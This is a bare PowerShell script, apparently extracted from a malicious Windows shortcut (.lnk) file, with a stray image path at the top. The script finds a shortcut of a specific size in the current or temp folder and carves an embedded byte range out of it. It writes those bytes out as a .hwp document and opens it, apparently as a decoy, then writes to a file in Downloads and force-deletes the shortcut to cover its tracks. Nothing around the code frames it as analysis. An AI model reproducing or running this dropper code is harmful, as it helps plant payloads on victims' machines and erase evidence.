 $lk=ls -Path '.\' -filter '*.lnk';

for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$lk=$lk[$a].fullname;break}}

if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2
for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$lk=$lk[$a].fullname;break}}
};

$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];
$fsdf=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fsdf,$file1);

&"$fsdf";
ac -path "C:\Users\user\Downloads\1.txt" "$lk\\$fsdf";
ri "$lk" -force;








